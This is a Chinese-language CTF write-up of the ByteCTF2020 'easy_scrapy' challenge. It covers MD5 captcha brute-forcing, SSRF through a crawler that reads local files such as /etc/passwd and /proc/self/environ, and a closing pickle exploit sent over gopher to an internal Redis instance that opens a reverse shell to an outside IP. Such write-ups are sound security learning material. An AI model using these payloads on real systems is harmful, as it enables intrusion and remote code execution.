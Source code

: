 ```yaml
---
title: ByteCTF2020复现
date: 2020-10-28
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210228105539.jpeg
description: 
categories: 
- ctf_writeup
tags:
- SSRF
- Redis
- python反序列化
---
```

这次ByteCTF2020的web题目非常顶，第一天比赛快结束的时候全场web才有了第一个解，后来解人数最多的XSS也就不过十个解，可惜一直在看爬虫的题，最后还是没做出。

------

### easy_scrapy

考点：MD5爆破、SSRF

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120181318.png)

功能是添加一个http://或者https://开头的URL，并且要求输入验证码，可以利用以下脚本来爆破：

```
import hashlib
 
for i in range(99999999):
    if hashlib.md5(str(i).encode('UTF-8')).hexdigest()[:6] == '2c97b3':
        print(i)
        break
```

十几秒能出结果，之后可以BP重放数据包来快速的添加。

添加成功之后可以在MyUrlList里面看到添加记录，点进去可以看到爬取到的东西。

监听端口接收到请求：

```
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en
User-Agent: scrapy_redis
Accept-Encoding: gzip, deflate
```

发现是scrapy_redis，初步猜测是SSRF打redis。

既然他是爬虫，那么遇到类似于<a>这种标签的话，他很有可能就会去请求，（后来放了HINT，叫去读这个页面的源码）尝试爬以下这道题的公网IP，发现他会把/list的源码一并爬下来，那么我们可以起一个页面来指向`file:///etc/passwd`

比赛的时候我用的是302重定向好像不行（哭了），其实这里他遇到一个<a>标签就会去请求：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120181325.png)

我们可以发现他请求到了我们想要的URL：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120181330.png)

把<a>标签的href改成file协议果然可以造成任意文件读：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120181342.png)

这样的话我们可以逐一的读取他爬虫的源码，但是在这之前我们要先知道爬虫工作的绝对路径，可以通过读`/proc/self/environ`，得到绝对路径PWD=/code，这个知识点在本站[[SWPU2019\]Web3](http://wh1sper.com/buuoj刷题记录3/)也提到过。

在[官方文档](https://scrapy-chs.readthedocs.io/zh_CN/0.24/intro/tutorial.html)中找到了这个爬虫框架的结构：

```
tutorial/
    scrapy.cfg
    tutorial/
        __init__.py
        items.py
        pipelines.py
        settings.py
        spiders/
            __init__.py
            ...
```

我们尝试去读取这些文件；

scrapy.cfg:

```
# Automatically created by: scrapy startproject
#
# For more information about the [deploy] section see:
# https://scrapyd.readthedocs.io/en/latest/deploy.html
 
[settings]
default = bytectf.settings
 
[deploy]
#url = http://localhost:6800/
project = bytectf
```

对照着文档我们可以看到项目文件夹的名称是bytectf，不过在bytectf/spider文件夹下的爬虫名称却似乎是自定义的名字。

读取`/proc/self/cmdline`，这个文件包含进程的完整命令行信息，我们可以根据他来得知正在运行的爬虫的文件名称。

```
/usr/local/bin/python /usr/local/bin/scrapy crawl byte
```

得知爬虫名字叫做byte。

读取之，得到[源码](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/ByteCTF2020/bytectf_easy_scrapy.zip)，结构大概如下：

```
/code/
  requirement.txt
  scrapy.cfg
  bytectf/
    __init__.py 
    items.py 
    pipelines.py 
    settings.py 
    spiders/ 
      __init__.py 
      byte.py
```

由源码可知：

```
172.20.0.8:6379为内网Redis
172.20.0.7:27017为mongodb
```

打一通之后没有任何回显，甚至不能确定这两个主机是否存活。

根据hint，得到源码之后我们可以本地起一个环境来调试，同时，从[这篇文章](https://blog.csdn.net/zwq912318834/article/details/78854571)里面我们得知redis-scrapy的运作方式:

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120181356.png)



作为一个分布式爬虫，是需要有一个Master端（核心服务器）的，在Master端，会搭建一个Redis数据库，用来存储start_urls、request、items。Master的职责是负责url指纹判重，Request的分配，以及数据的存储（一般在Master端会安装一个mongodb用来存储redis中的items）。出了Master之外，还有一个角色就是slaver（爬虫程序执行端），它主要负责执行爬虫程序爬取数据，并将爬取过程中新的Request提交到Master的redis数据库中。



这和我们之前的猜想SSRF+Redis是越来越接近的。

但是用用爬虫去打Redis是打不到东西的，我们可以在源码里面看到scrapy.Request，他是不支持gopher和dict协议的。

哪里还有SSRF的点呢？

当然是在点击爬取链接的时候：

```
?url=https://baidu.com
```

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120181407.png)

监听到请求的UA是`PycURL`，这个东西和curl差不多，是支持gopher等协议的，我们就可以利用这里去打redis。

不过遗憾的是，这里的是ssrf仍然是没有回显，难以判断我们的payload是否起作用。

此题最难发现的点我感觉就是这个pickle反序列化，此时有两种发现pickle反序列化的方法：

1.本地起一个scrapy_redis环境，去看redis里面的东西，发现序列化数据（操作有难度，也许会遇到很多问题）

2.爬虫第4行使用了scrapy_redis库，去看这个的源码，可以发现它在存取数据的过程中使用了pickle的序列化方式，并且还可以发现，它会将request对象存入`爬虫名:requests`这样的有序列表中。

既然有序列化那必然存在反序列化，利用反序列化来反弹shell。

`byte:requests`有序列表是zset的，我们gopher打的时候需要zset。

贴一个官方exp：

```
import pickle
import os
from urllib.parse import quote
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("119.45.184.10",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        return (os.system, (s,))
test = str(pickle.dumps(exp()))
poc = test.replace("\n",'\\n').replace("\"","\\\"")[2:-1]
poc ='gopher://172.20.0.7:6379/_'+quote('ZADD byte:requests 0 "')+quote(poc)+quote('"')
print(poc)
```

时间显得有点急，这道题就草草的复现了一遍，以后时间再本地深究